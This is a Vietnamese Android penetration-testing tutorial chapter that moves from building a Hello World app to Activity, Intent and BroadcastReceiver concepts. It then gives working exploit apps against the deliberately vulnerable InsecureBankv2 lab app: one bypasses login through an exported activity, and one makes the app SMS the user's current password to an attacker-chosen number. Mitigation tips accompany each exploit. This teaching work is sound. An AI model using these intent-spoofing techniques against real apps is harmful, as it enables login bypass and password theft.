



# L7: Android Mobile Pentest 101

## Bài 10: Creating Exploits

---

## Lecture 10.1 – Hello World App

### Giới thiệu

Trước khi bắt đầu pentest Android, bạn cần hiểu cơ bản về cách một ứng dụng Android được xây dựng. Bài này hướng dẫn tạo một app Android đơn giản in ra "Hello World!" trong logcat.

### Yêu cầu

- **Java JDK**: Tải tại [java.com/download](https://java.com/download)
- **Android Studio**: Tải tại [developer.android.com/studio](https://developer.android.com/studio)

### Các bước tạo project

**Bước 1:** Mở Android Studio → **File → New → New Project → Empty Activity**

**Bước 2:** Điền thông tin project:

| Trường | Giá trị |
|---|---|
| Name | HelloWorld |
| Package name | com.example.helloworld |
| Language | Java |
| Minimum API level | API 15 (Android 4.0.3) |

**Bước 3:** Code trong file `MainActivity.java`:

```java
package com.example.helloworld;

import android.support.v7.app.AppCompatActivity;
import android.os.Bundle;
import android.util.Log;

public class MainActivity extends AppCompatActivity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);
        Log.i("AndroidMobilePentest", "Hello World!");
    }
}
```

**Bước 4:** Tạo emulator device trong Android Studio (AVD Manager), sau đó nhấn **Run**.

**Bước 5:** Kết quả trong **Logcat**:

```
2019-08-11 22:43:48.876  I/AndroidMobilePentest: Hello World!
```

### Build file APK

Để tạo file `.apk` cài vào thiết bị thật:

**Build → Build Bundle(s) / APK(s) → Build APK(s)**

Sau khi build thành công, nhấn **locate** để mở thư mục chứa file APK.

!!! note "Lưu ý về Play Store"
    Để publish lên Play Store, bạn cần thêm bước **ký (sign) APK** bằng keystore. Bài này không đề cập đến bước đó.

---

## Lecture 10.2 – Gửi HTTP Request từ Android

### Giới thiệu

Trong pentest, sau khi đánh cắp được dữ liệu của user, bạn cần một cách để **exfiltrate** dữ liệu ra ngoài. Gửi HTTP Request lên một web server là cách phổ biến nhất.

### Android Permission

Android theo mô hình **sandboxing** – mặc định app không được phép tương tác với camera, internet, disk... Muốn dùng, phải khai báo permission trong `AndroidManifest.xml`.

Để gửi HTTP Request, cần 2 permission:

```xml
<uses-permission android:name="android.permission.INTERNET" />
<uses-permission android:name="android.permission.ACCESS_NETWORK_STATE" />
```

!!! info "Phân loại Permission"
    - **Normal permissions**: Cấp tự động, không cần user xác nhận (VD: INTERNET).
    - **Dangerous permissions**: Cần user xác nhận khi runtime (VD: READ_CONTACTS, CAMERA).
    - Xem thêm: [developer.android.com/guide/topics/permissions/overview](https://developer.android.com/guide/topics/permissions/overview)

### Import thư viện

Thêm vào `MainActivity.java`:

```java
import androidx.appcompat.app.AppCompatActivity;
import java.io.BufferedReader;
import java.io.InputStreamReader;
import java.net.URL;
import java.net.URLConnection;
import android.os.StrictMode.ThreadPolicy.Builder;
import android.os.StrictMode;
import android.os.Bundle;
import android.util.Log;
```

### Xử lý StrictMode

Khi gửi network request trên **UI thread**, Android sẽ ném ra lỗi `NetworkOnMainThreadException`. Nguyên nhân là class `StrictMode` được load mặc định để bảo vệ UI thread khỏi các tác vụ chặn (blocking) như I/O, network.

Để bypass (trong môi trường demo/pentest):

```java
StrictMode.setThreadPolicy(new Builder().permitAll().build());
```

!!! warning "Lưu ý trong production"
    Trong app thật, không nên dùng cách này. Thay vào đó hãy dùng `AsyncTask`, `Thread`, hoặc `Coroutine` (Kotlin) để chạy network request trên background thread.

### Code gửi HTTP Request

```java
// Định nghĩa URL
String url = "https://tsug0d.com/present/tsu.txt";
StringBuilder url_holder = new StringBuilder();
url_holder.append(url);

try {
    // Tạo connection
    URLConnection conn = new URL(url_holder.toString()).openConnection();

    // Set headers
    conn.setRequestProperty("Content-Type", "application/x-www-form-urlencoded");
    conn.setRequestProperty("charset", "utf-8");
    conn.setUseCaches(false);

    // Đọc response
    BufferedReader buffer = new BufferedReader(
        new InputStreamReader(conn.getInputStream())
    );

    String response;
    String data_from_stream;
    for (response = new String(); true; response += data_from_stream) {
        String stream = buffer.readLine();
        data_from_stream = stream;
        if (stream == null) {
            break;
        }
    }

    Log.i("tsu", response);

} catch (Exception e) {
    e.printStackTrace();
}
```

Kết quả: Response từ server sẽ được in ra logcat.

??? info "Code mẫu đầy đủ"
    - AndroidManifest: https://github.com/tsug0d/AndroidMobilePentest101/blob/master/lab/AndroidManifest.xml_http
    - MainActivity: https://github.com/tsug0d/AndroidMobilePentest101/blob/master/lab/MainActivity.java_http

---

## Lecture 10.3 – Android Activity

### Activity là gì?

> Tham khảo chính thức: [developer.android.com/reference/android/app/Activity](https://developer.android.com/reference/android/app/Activity)

**Activity** là một màn hình đơn lẻ trong ứng dụng Android, đại diện cho một hành động mà người dùng có thể thực hiện. Ví dụ: màn hình đăng nhập là một Activity, màn hình danh sách sản phẩm là một Activity khác.

Nếu bạn quen với lập trình C/C++, Activity giống như một hàm được gọi lên – nhưng phức tạp hơn vì có **lifecycle callbacks**.

### Activity Lifecycle

Mỗi Activity đi qua các trạng thái khác nhau trong vòng đời của nó:



### Giải thích từng callback

| Callback | Khi nào được gọi |
|---|---|
| `onCreate()` | Activity được khởi tạo lần đầu. Đây là nơi setup UI, khởi tạo biến. |
| `onStart()` | Activity bắt đầu hiển thị cho user (chưa tương tác được). |
| `onResume()` | Activity đang ở foreground, user có thể tương tác. |
| `onPause()` | User chuyển sang app/activity khác, activity hiện tại mất focus. |
| `onStop()` | Activity không còn nhìn thấy nữa (ví dụ: bị activity khác che hoàn toàn). |
| `onDestroy()` | Activity sắp bị hủy hoàn toàn (tắt app hoặc gọi `finish()`). |
| `onRestart()` | Activity được khởi động lại sau khi đã `onStop()`. |

### Demo thực tế

Thêm log vào từng callback để quan sát:

```java
@Override
protected void onStart() {
    super.onStart();
    Log.i("AndroidMobilePentest", "=== onStart() ===");
}

@Override
protected void onResume() {
    super.onResume();
    Log.i("AndroidMobilePentest", "=== onResume() ===");
}

@Override
protected void onPause() {
    super.onPause();
    Log.i("AndroidMobilePentest", "=== onPause() ===");
}

@Override
protected void onStop() {
    super.onStop();
    Log.i("AndroidMobilePentest", "=== onStop() ===");
}

@Override
protected void onDestroy() {
    super.onDestroy();
    Log.i("AndroidMobilePentest", "=== onDestroy() ===");
}

@Override
protected void onRestart() {
    super.onRestart();
    Log.i("AndroidMobilePentest", "=== onRestart() ===");
}
```

**Kịch bản và kết quả Logcat:**

=== "Mở app"

    ```
    I/AndroidMobilePentest: onCreate()
    I/AndroidMobilePentest: onStart()
    I/AndroidMobilePentest: onResume()
    ```

=== "Lock màn hình"

    ```
    I/AndroidMobilePentest: onPause()
    I/AndroidMobilePentest: onStop()
    ```

=== "Mở lại từ lock"

    ```
    I/AndroidMobilePentest: onStart()
    I/AndroidMobilePentest: onResume()
    ```

=== "Tắt app"

    ```
    I/AndroidMobilePentest: onPause()
    I/AndroidMobilePentest: onStop()
    I/AndroidMobilePentest: onDestroy()
    ```

??? info "Code mẫu đầy đủ"
    https://github.com/tsug0d/AndroidMobilePentest101/blob/master/lab/MainActivity.java_activities

---

## Lecture 10.4 – Intent & Intent Filter

### Intent là gì?

> Tham khảo: [developer.android.com/guide/components/intents-filters](https://developer.android.com/guide/components/intents-filters)

**Intent** là một đối tượng tin nhắn (message object) cho phép các thành phần Android giao tiếp với nhau. Intent được dùng để:

- Khởi động một Activity
- Khởi động một Service
- Gửi Broadcast

Có 2 loại Intent:

### Explicit Intent

Explicit Intent chỉ định **rõ ràng** tên class của component đích. Thường dùng để gọi nội bộ trong cùng một app.

```java
// Activity A gọi Activity B trong cùng app
Intent i = new Intent(FirstActivity.this, SecondActivity.class);
startActivity(i);
```

Vì bạn biết chính xác tên class trong app của mình, nên bạn gọi trực tiếp luôn.

### Implicit Intent

Implicit Intent **không chỉ định** component đích cụ thể, mà chỉ khai báo **hành động (action)** muốn thực hiện. Android OS sẽ tìm app nào có thể xử lý action đó.

**Luồng hoạt động:**



**Ví dụ – Mở danh bạ:**

```java
Intent read_contact = new Intent();
read_contact.setAction(android.content.Intent.ACTION_VIEW);
read_contact.setData(ContactsContract.Contacts.CONTENT_URI);
startActivity(read_contact);
```

App không cần biết app danh bạ là gì, chỉ cần gửi action `ACTION_VIEW` với URI của contacts, Android sẽ tự tìm app phù hợp.

### Intent Filter

Intent Filter được định nghĩa trong `AndroidManifest.xml`, cho phép một component khai báo nó có thể **xử lý** những intent nào.

```xml
<activity android:name=".CustomActivity"
   android:label="@string/app_name">

   <intent-filter>
      <action android:name="android.intent.action.VIEW" />
      <action android:name="com.example.MyApplication.LAUNCH" />
      <category android:name="android.intent.category.DEFAULT" />
      <data android:scheme="http" />
   </intent-filter>

</activity>
```

Manifest trên khai báo rằng `CustomActivity` có thể:
- Xử lý action `android.intent.action.VIEW`
- Xử lý action `com.example.MyApplication.LAUNCH`
- Với category `DEFAULT`
- Với data scheme là `http://`

!!! danger "Góc nhìn bảo mật"
    Nếu một Activity có `android:exported="true"` **và** có intent-filter, thì **bất kỳ app nào** cũng có thể gọi vào Activity đó. Đây là một trong những attack surface phổ biến nhất trong Android pentest.

---

## Lecture 10.5 – Exploit Activity

### Mục tiêu

Tạo một app độc hại để gọi thẳng vào Activity `PostLogin` của InsecureBankv2 mà không cần đăng nhập – tương tự bypass login đã làm trước đây bằng lệnh `am`, nhưng lần này **không cần root**.

### Phân tích InsecureBankv2

**Bước 1:** Decompile APK bằng apktool:

```bash
apktool d InsecureBankv2.apk
```

**Bước 2:** Đọc `AndroidManifest.xml`, tìm activity `PostLogin`:

```xml
<activity
    android:exported="true"
    android:label="@string/title_activity_post_login"
    android:name="com.android.insecurebankv2.PostLogin" />
```

!!! danger "Vấn đề bảo mật"
    `android:exported="true"` nghĩa là **bất kỳ app nào cũng có thể gọi Activity này**. Không có authentication check nào ở đây.

### Tạo app exploit

**Bước 1:** Tạo Empty Project mới trong Android Studio tên `ExploitActivity`.

**Bước 2:** Thêm Button vào `activity_main.xml` bằng Layout Editor.

**Bước 3:** Code trong `MainActivity.java`:

```java
package com.example.exploitactivity;

import android.content.Intent;
import android.support.v7.app.AppCompatActivity;
import android.os.Bundle;
import android.view.View;
import android.widget.Button;

public class MainActivity extends AppCompatActivity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        Button mButton = (Button) findViewById(R.id.button);
        mButton.setOnClickListener(new View.OnClickListener() {
            @Override
            public void onClick(View view) {
                // Tạo explicit intent gọi thẳng vào PostLogin
                Intent tsu = new Intent(Intent.ACTION_SEND);
                tsu.setClassName(
                    "com.android.insecurebankv2",
                    "com.android.insecurebankv2.PostLogin"
                );
                startActivity(tsu);
            }
        });
    }
}
```

**Bước 4:** Build APK và cài lên thiết bị đã có InsecureBankv2. Nhấn **BUTTON** → App InsecureBankv2 mở thẳng vào màn hình PostLogin mà không cần đăng nhập.

??? info "Code mẫu đầy đủ"
    https://github.com/tsug0d/AndroidMobilePentest101/blob/master/lab/MainActivity.java_ActivityExploit

!!! tip "Phòng chống"
    Developer nên set `android:exported="false"` cho những Activity không cần gọi từ app khác. Hoặc nếu cần exported, phải implement kiểm tra quyền (permission check) hoặc authentication trong `onCreate()`.

---

## Lecture 10.6 – Broadcast Receivers

### Broadcast Receiver là gì?

**BroadcastReceiver** là một trong bốn thành phần chính của Android (cùng với Activity, Service, ContentProvider). Nó dùng để **lắng nghe các sự kiện hệ thống hoặc app** (system-wide broadcast events).

Khác với Activity, BroadcastReceiver **không có UI**. Nó chạy ngầm và phản ứng khi nhận được broadcast phù hợp.

**Ví dụ các broadcast hệ thống:**

- `android.intent.action.AIRPLANE_MODE` – bật/tắt chế độ máy bay
- `android.intent.action.BOOT_COMPLETED` – máy khởi động xong
- `android.intent.action.BATTERY_LOW` – pin yếu
- `android.net.conn.CONNECTIVITY_CHANGE` – thay đổi kết nối mạng

### Code demo – Lắng nghe Airplane Mode

```java
public class MainActivity extends AppCompatActivity {

    private Broadcast broadcast;

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        // Tạo receiver instance
        broadcast = new Broadcast();

        // Đăng ký lắng nghe action AIRPLANE_MODE
        IntentFilter filter = new IntentFilter("android.intent.action.AIRPLANE_MODE");
        registerReceiver(broadcast, filter);
    }

    @Override
    protected void onStop() {
        super.onStop();
        // Hủy đăng ký khi app dừng để tránh memory leak
        unregisterReceiver(broadcast);
    }
}

// Định nghĩa class Receiver
class Broadcast extends BroadcastReceiver {
    @Override
    public void onReceive(Context context, Intent intent) {
        Log.d(Broadcast.class.getSimpleName(), "Air Plane mode");
    }
}
```

Mỗi khi bật/tắt Airplane Mode, logcat sẽ in:

```
D/Broadcast: Air Plane mode
```

!!! note "Hai cách đăng ký Broadcast Receiver"
    - **Dynamic (code)**: Dùng `registerReceiver()` trong Activity/Service. Chỉ hoạt động khi app đang chạy.
    - **Static (manifest)**: Khai báo `<receiver>` trong `AndroidManifest.xml`. Hoạt động kể cả khi app không chạy (tùy Android version).

??? info "Code mẫu đầy đủ"
    https://github.com/tsug0d/AndroidMobilePentest101/blob/master/lab/MainActivity.java_BroadcastReceivers

---

## Lecture 10.7 – Exploit Broadcast Receivers

### Phân tích InsecureBankv2

**Bước 1:** Mở `AndroidManifest.xml` của InsecureBankv2, tìm thấy:

```xml
<receiver
    android:exported="true"
    android:name="com.android.insecurebankv2.MyBroadCastReceiver">
    <intent-filter>
        <action android:name="theBroadcast" />
    </intent-filter>
</receiver>
```

!!! danger "Vấn đề bảo mật"
    `android:exported="true"` + không có permission check = **bất kỳ app nào cũng có thể gửi broadcast đến receiver này**.

**Bước 2:** Dùng JD-GUI decompile, xem class `ChangePassword` – nó gửi broadcast như sau:

```java
Intent localIntent = new Intent();
localIntent.setAction("theBroadcast");
localIntent.putExtra("phonenumber", paramString1);
localIntent.putExtra("newpass", paramString2);
sendBroadcast(localIntent);
```

**Bước 3:** Xem `onReceive()` trong `MyBroadCastReceiver`:

```java
public void onReceive(Context paramContext, Intent paramIntent) {
    String str1 = paramIntent.getStringExtra("phonenumber"); // số điện thoại
    String str2 = paramIntent.getStringExtra("newpass");     // mật khẩu mới

    if (str1 != null) {
        try {
            SharedPreferences localSharedPreferences =
                paramContext.getSharedPreferences(...);
            this.usernameBase64ByteString =
                new String(Base64.decode(localSharedPreferences...));
            String str3 = localSharedPreferences.getString("superSecurePassword", ...);
            String str4 = new CryptoClass().aesDecryptedString(str3); // mật khẩu hiện tại
            String str5 = str1.toString();
            String str6 = "Updated Password from: " + str4 + " to: " + str2;

            SmsManager localSmsManager = SmsManager.getDefault();
            localSmsManager.sendTextMessage(str5, null, str6, null, null);
        }
    }
}
```

**Tóm tắt logic:** Receiver nhận `phonenumber` và `newpass` từ intent, sau đó **gửi SMS đến số phone đó** với nội dung bao gồm cả **mật khẩu cũ và mới**.

### Tạo app exploit

```java
@Override
protected void onCreate(Bundle savedInstanceState) {
    super.onCreate(savedInstanceState);
    setContentView(R.layout.activity_main);

    Intent tsu = new Intent("theBroadcast");
    tsu.putExtra("phonenumber", "15555218135");         // số điện thoại nhận SMS
    tsu.putExtra("newpass", "tsudeptrai");               // nội dung attacker kiểm soát
    sendBroadcast(tsu);
}
```

Khi nạn nhân cài app này và mở lên, SMS sẽ tự động gửi đến số điện thoại attacker chỉ định, kèm theo **mật khẩu hiện tại** của tài khoản InsecureBankv2.

**Kết quả SMS nhận được:**

```
Updated Password from: Jack@123$ to: tsudeptrai
```

??? info "Code mẫu đầy đủ"
    https://github.com/tsug0d/AndroidMobilePentest101/blob/master/lab/MainActivity.java_ExploitBroadcastReceivers

!!! tip "Phòng chống"
    - Set `android:exported="false"` nếu receiver chỉ dùng nội bộ.
    - Nếu cần exported, dùng custom permission: `android:permission="com.example.MY_PERMISSION"`.
    - Không bao giờ gửi thông tin nhạy cảm (password, token) qua SMS hoặc broadcast không được bảo vệ.

---

## Tổng kết



| Thành phần | Điều kiện dễ bị exploit | Kỹ thuật khai thác |
|---|---|---|
| Activity | `exported="true"`, không auth check | Gửi Explicit Intent qua `setClassName()` |
| BroadcastReceiver | `exported="true"`, không permission | Gửi broadcast với action tương ứng |
| ContentProvider | `exported="true"` | Query/insert trực tiếp URI |
| Service | `exported="true"` | Bind/start service từ app ngoài |

!!! note "Tài nguyên học thêm"
    - OWASP Mobile Top 10: https://owasp.org/www-project-mobile-top-10/
    - InsecureBankv2 lab: https://github.com/dineshshetty/Android-InsecureBankv2
    - Android Security Internals (sách): https://nostarch.com/androidsecurity
    - drozer – framework pentest Android: https://github.com/WithSecureLabs/drozer
